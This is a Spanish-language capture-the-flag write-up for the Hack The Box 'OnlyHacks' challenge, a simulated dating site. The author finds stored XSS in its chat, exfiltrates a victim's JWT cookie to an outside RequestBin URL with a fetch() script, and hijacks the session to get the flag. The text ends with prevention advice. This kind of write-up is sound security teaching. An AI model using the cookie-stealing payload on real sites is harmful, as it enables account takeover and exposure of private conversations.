 
# OnlyHacks – Hack The Box

**Categoría:** Challenges  
**Fecha:** Abril 4, 2025

---

## Descripción General

Este reto de Hack The Box simula una red social de citas. A través de una vulnerabilidad XSS (Cross-Site Scripting), logramos robar la sesión de otro usuario y obtener la flag final del reto.

---

## Accediendo a la Página

Iniciamos la máquina y HTB nos entrega el siguiente host:

```
94.237.63.165:32414
```

Pegamos el host en el navegador y se abre una red social de citas. Nos registramos con un usuario cualquiera y accedemos a la plataforma.

---

## Explorando la Aplicación

Al iniciar sesión, vemos perfiles para hacer "match". Hacemos match con una usuaria llamada **Renata** y comenzamos a chatear con ella.

---

## Prueba de XSS

Probamos si el campo de chat es vulnerable a XSS con un payload básico:

```html
<script>alert(0)</script>
```

El mensaje se ejecuta, lo que confirma que el chat es vulnerable a **XSS reflejado o almacenado**.

---

## Revisión del JWT

Inspeccionamos la aplicación (F12) y en la sección de almacenamiento encontramos una cookie con un **JWT (JSON Web Token)**. Este token mantiene la sesión activa del usuario.

Si robamos este token, podemos suplantar la identidad de otro usuario.

---

## Preparando el Ataque XSS con RequestBin

Usamos [RequestBin](https://requestbin.whapi.cloud/) para generar un endpoint que reciba las cookies robadas.

Ejemplo de URL generada por RequestBin:

```
http://requestbin.whapi.cloud/1iavnfa1
```

Luego, enviamos el siguiente payload XSS a Renata por el chat:

```html
<script>
fetch("http://requestbin.whapi.cloud/1iavnfa1?cookie=" + document.cookie);
</script>
```

### ¿Qué hace este script?

- **document.cookie**: Obtiene todas las cookies del navegador.
- **fetch()**: Envía una petición GET a nuestra URL con las cookies robadas como parámetro.

---

## Robando la Cookie de Renata

Cuando Renata abre el mensaje, su navegador ejecuta el script y su cookie llega a nuestro RequestBin.

Ahí podemos ver su JWT, que copiamos y usamos en nuestro navegador:

1. F12 > Almacenamiento > Cookies.
2. Sustituimos nuestro JWT por el de Renata.
3. Recargamos la página.

Ahora estamos autenticados como **Renata**.

---

## Obteniendo la Flag

Una vez dentro de la cuenta de Renata, abrimos su chat con otro usuario llamado **Dimitris**. En esa conversación encontramos la **flag final** del reto.

---

## Conclusiones

Este reto demuestra lo peligroso que puede ser un XSS si no se controla a tiempo. Con una simple línea de código es posible robar sesiones y acceder a información privada.

### ¿Cómo prevenirlo?

- **Sanitización de entradas**: No permitir que los usuarios inserten scripts en los campos.
- **Cookies HttpOnly**: Impiden que JavaScript acceda a las cookies.
- **SameSite Cookies**: Restringen el uso de cookies en peticiones entre sitios.

---

## Herramientas Utilizadas

- Navegador + Herramientas de desarrollador.
- RequestBin para capturar cookies.
- Payloads XSS básicos.

---

## Aprendizajes

- Cómo detectar y explotar una vulnerabilidad XSS.
- Cómo robar una sesión utilizando JWT.
- Cómo usar herramientas como RequestBin para capturar datos.

---

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas y/o challenges más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/
